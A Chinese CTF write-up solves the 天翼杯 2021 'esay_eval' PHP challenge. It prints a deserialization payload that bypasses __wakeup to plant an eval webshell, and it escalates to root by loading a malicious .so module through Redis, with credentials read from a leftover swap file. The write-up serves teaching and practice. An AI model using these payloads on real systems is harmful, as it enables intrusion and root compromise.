 ```yaml
---
title: [天翼杯 2021]esay_eval
date: 2022-05-11 20:41:07
tags:
    - CTF
categories: CTF
my: esay_eval
---
```


题目源码：

```php
<?php
class A{
    public $code = "";
    function __call($method,$args){
        eval($this->code);
        
    }
    function __wakeup(){
        $this->code = "";
    }
}

class B{
    function __destruct(){
        echo $this->a->a();
    }
}
if(isset($_REQUEST['poc'])){
    preg_match_all('/"[BA]":(.*?):/s',$_REQUEST['poc'],$ret);
    if (isset($ret[1])) {
        foreach ($ret[1] as $i) {
            if(intval($i)!==1){
                exit("you want to bypass wakeup ? no !");
            }
        }
        unserialize($_REQUEST['poc']);    
    }


}else{
    highlight_file(__FILE__);
}
```

上来是个简单（bushi）的反序列化拿shell，但是A类里面的`__wakeup()`函数会把我们传进去的`$code`属性置为空，这里我们只需要让`__wakeup()`函数失效，CVE-2016-7124:当反序列化字符串中，表示属性个数的值大于真实属性个数时，会绕过 __wakeup 函数的执行。(也可上b站看[视频学习](https://www.bilibili.com/video/BV1Z54y1U7up?spm_id_from=333.880.my_history.page.click)）

```php
<?php
class a{
	function __construct(){
		$this->code = $code;
	}
}
class B{
	function __construct(){
		$this->a = $a;
	}
}
$a = new a();
$a->code = 'eval($_POST[1]);';
$b = new B();
$b->a = $a;
echo serialize($b);
?>
```

得到了payload：?poc=O:1:"B":1:{s:1:"a";O:1:"a":2:{s:4:"code";s:16:"eval($_POST[1]);";}}直接不犹豫连接蚁剑.当我们以为就此结束可以拿到flag我们点击根目录发现这个shell没有访问权限，但是在/var/www/html中有上传权限，所以可以通过上传恶意的so文件，通过蚁剑的redis管理插件，进行ssrf，然后包含恶意so文件（提供一[下载地址](https://github.com/Dliv3/redis-rogue-server)）

![image.png](https://s2.loli.net/2022/05/11/jnw9QXU8NWF5eK1.png)

**注**：因为插件市场这个东西，国内基本是访问不到，我在用蚁剑访问的时候，就一直转圈圈转不出来，所以可以使用github的插件仓库下载插件，然后手动放到**antSword-master/antData/pulgins**中，再次打开蚁剑后，会自动加载该插件（或者科学上网）

我们上传一个exp.so文件

![image.png](https://s2.loli.net/2022/05/11/hBI54UzwPbXysgo.png)

![image.png](https://s2.loli.net/2022/05/11/39SgHdzWhoZRnEJ.png)

密码是根据/var/www/html中有个config.php.swp文件，其中有密码

![image.png](https://s2.loli.net/2022/05/11/pcECsYOIgrRfPv5.png)

![image.png](https://s2.loli.net/2022/05/11/4w9d3VIzTHDgM1x.png)

然后执行指令

![image.png](https://s2.loli.net/2022/05/11/8CGLhlsyeDYir3N.png)

```
MODULE LOAD /var/www/html/exp.so
system.exec "whoami"
```

这里我们发现是root权限

![image.png](https://s2.loli.net/2022/05/11/lAhN2fa8yWSCPwk.png)

直接看根目录   然后找到flag

```
system.exec "ls /"
system.exec "cat /flag*"
```
